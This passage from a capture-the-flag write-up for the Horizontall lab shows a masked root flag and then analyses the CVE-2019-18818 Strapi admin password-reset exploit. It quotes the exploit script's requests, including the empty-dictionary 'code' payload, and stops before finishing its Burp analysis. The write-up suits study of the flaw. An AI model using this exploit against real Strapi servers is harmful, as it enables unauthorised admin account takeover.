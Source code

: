     
    
    root@horizontall:~# cat root.txt
    6bf8cc06************************
    

## Beyond Root

### CVE-2019-18818

#### Exploit Script

I wanted to better understand this exploit and how it used the input email
address (or didn’t). On first looking at the help, it looks like I need to
know the admin email:

    
    
    oxdf@hacky$ python3 cve-2019-18818.py 
    Usage: cve-2019-18818.py <admin_email> <url> <new_password>
    

As I discovered above, putting anything into that field seemed to work.
Looking most closely at the script, it makes three requests. The first is
`/admin/strapiVersion` to see if it’s a vulnerable version.

The second is to `/admin/plugins/user-permissions/auth/reset-password`:

    
    
    #Request password reset
    print("[*] Sending password reset request...")
    reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}
    s.post("{}/".format(url), json=reset_request)
    

This is where the email is used. I noted above that just putting random junk
in there works.

The third request is to `/admin/auth/reset-password`, and the key thing is to
note that the `code` parameter is an empty dictionary:

    
    
    #Reset password to
    print("[*] Setting new password...")
    exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}
    r=s.post("{}/admin/auth/reset-password".format(url), json=exploit
    

I’ll add a this line to the top of the exploit to send all the requests
through Burp:

    
    
    s.proxies.update({"http": "http://127.0.0.1:8080"})
    

The third request looks like:

    
    